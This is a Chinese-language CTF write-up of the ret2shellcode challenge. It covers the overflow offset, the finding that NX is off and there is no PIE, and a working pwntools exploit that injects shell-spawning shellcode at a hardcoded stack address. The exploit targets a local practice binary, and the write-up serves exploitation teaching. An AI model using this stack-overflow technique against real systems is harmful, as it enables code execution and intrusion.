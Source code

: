 不装模作样分析，直接看`strncpy`，函数签名是 `strncpy(char* dest,const char* src, size_t count)`，写入的位置 `buf2` 观察下有没有执行权限。`buf2` 是可读写全局变量，这种全局变量放置在`.bss`段，所以直接看`.bss`段有没有可执行属性。

![image-20220823181351695](image-20220823181351695.png)

emmm......

![image-20220823181428657](image-20220823181428657.png)

emmmmmmmmmm..........

好。那不用看 ctf-wiki 的题解了，按自己的思路来。`checksec` 的结果是 `NX: false`，栈上有可执行权限。而且没有 PIE，关了 ASLR 直接硬编码栈上地址就完事。

老规矩算一下 buf `0xffffd0ec` 到返回地址的 `0xffffd15c` 距离，溢出后地址设置为`buf`的地址。计算得距离 112 字节，接下来写 exploit 。

### exploit

> 注意环境变量数量会影响 `&buf` 的地址，为了保证得到的地址和 `pwn.process` 启动一致，最好调试时也使用 `pwn.gdb.debug` 启动，设置下 `env={}`。或自己管理环境变量，确保不影响栈上变量的地址。

```python
import pwn
from pwn import shellcraft
import struct

p = pwn.process('./bin/ret2shellcode', env={})
payload = pwn.asm(shellcraft.linux.sh())
payload += b'A' * (112 - len(payload))
payload += struct.pack('<I', 0xffffddcc)
p.sendline(payload)
p.interactive()
```

![image-20220824095344282](image-20220824095344282.png)
